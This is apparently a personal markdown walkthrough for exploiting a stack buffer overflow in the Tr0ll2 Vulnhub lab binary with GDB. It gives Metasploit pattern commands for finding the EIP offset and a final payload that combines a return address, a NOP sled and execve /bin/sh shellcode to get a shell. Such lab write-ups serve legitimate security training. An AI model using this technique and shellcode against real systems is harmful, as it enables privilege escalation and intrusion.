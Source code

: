 ## How to do bufferoverflow for a Linux binary in GDB () ?
### Tested for Trollv2 Vulnhub - Dated 22 Dec 2020


1. Identify the overflow by giving some malicious input to binary; should see something like "SEGMENTATION FAULT" etc. 

1. Python can help in generating * no of characters e.g. python -c 'print("A"*500)' can generate 500 A's.
1. Open the binary name in GDB by running command: gdb <binary>

1. Next inside the GBD type command: r $(python -c 'print"A"*300') 

1. Above command should crash the program, and GBD will show "Program received signal SIGSEGV, Segmentation fault." 

1. Create a unique pattern with MSF by using command: msf-pattern_create -l 300

1. Copy that unique pattern and again in gdb type: r <MSF generated unique pattern>

1. Above command will again crash the program, type command: info registers and note down the value of EIP. Lets assume EIP value is 0x6a413969.

1. Again use MSF to find the exact offset point by running command: msf-pattern_offset -q 6a413969. The output would be some number e.g. 268.

1. To check we have control of EIP, type following command inside the GDB: $(python -c 'print "A"*268 + "B"*4'). And we should see EIP being filled with BBBB or 42 42 42 42.

1. Exit GDB and re-open it with following command: env - gdb r00t
1. Inside GBD type command: show env, it will show output something e.g. LINES=27 COLUMNS=120.

1. Type command: unset env LINES

1. Type command: unset env COLUMNS

1. Type command: $(python -c 'print "A"*268 + "BBBB"')

1. No need to notedown the JMP address, simply notedown the value of ESP which in this case is 0xbffffd30

1. Inside GBD type command: $(python -c 'print "A"*268 + "\x30\xfd\xff\xbf" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

1. You should see SHELL. Thats it.

Resoruced used:
https://www.doyler.net/security-not-included/tr0ll-2-walkthrough-you-gotta-pay-the-troll-toll
https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966
http://shell-storm.org/shellcode/files/shellcode-827.php
